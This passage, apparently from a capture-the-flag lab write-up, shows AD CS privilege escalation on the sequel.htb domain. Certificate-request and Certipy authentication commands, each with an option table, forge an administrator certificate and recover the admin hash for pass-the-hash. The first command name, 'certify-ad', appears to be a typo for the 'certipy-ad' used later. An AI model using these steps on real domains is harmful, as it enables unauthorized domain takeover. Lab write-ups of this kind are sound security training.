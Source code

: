 I used this command to exploit AD CS. This will request a certificate for the `administrator@sequel.htb` account using the `DunderMifflinAuthentication` template. Since `ca_svc` has control over this template, it can generate a valid authentication certificate for `administrator`.
```bash
sudo certify-ad req -username 'ca_svc@sequel.htb' -hashes <hash> -ca sequel-DC01-CA -target DC01.sequel.htb -template DunderMifflinAuthentication -upn administrator@sequel.htb -dc-ip <IP>
```

| Command Option            | Explanation                                                   |
| :-------------------------| :-------------------------------------------------------------|
| -username 'ca_svc@sequel.htb' | Authenticates as the `ca_svc` user. |
| -hashes <hash>      | Uses the NTLM hash of `ca_svc` instead of a password |
| -ca sequel-DC01-CA | Specifies the **Certificate Authority (CA)** server |
| -target DC01.sequel.htb | Targets the **Domain Controller (DC01)** for the certificate request. |
| -template DunderMifflinAuthentication | Specifies the certificate template to use for the request |
| -upn administrator@sequel.htb | Requests a certificate as `administrator@sequel.htb`, allowing <br> authentication as the Domain Admin. |
| -dc-ip <IP> | By this time, YOU GUYS / GAL ALREADY KNOW WHAT THIS HATDOG IS <BR> FOR RIGHT? |

![Desktop View](/assets/img/ad-series-2/ss30.png){: width="982" height="800" }
_Generating a valid authentication certificate for administrator_

Since I already have the administrator.pfx certificate that I could use to authenticate instead of using a password or hash.
```bash
certipy-ad auth -pfx administrator.pfx -domain sequel.htb
```

| Command Option            | Explanation  |
| :-------------------------| :-------------------------------------|
| certipy-ad auth | Uses Certipy to authenticate to Active Directory. |
| -pfx administrator.pfx | This specifies the PFX (Personal Information Exchange) certificate for authentication. |
| -domain sequel.htb | Ya'll know what this does. |

And now I got the administrator's hash. I could now log in as administrator using PtH attack.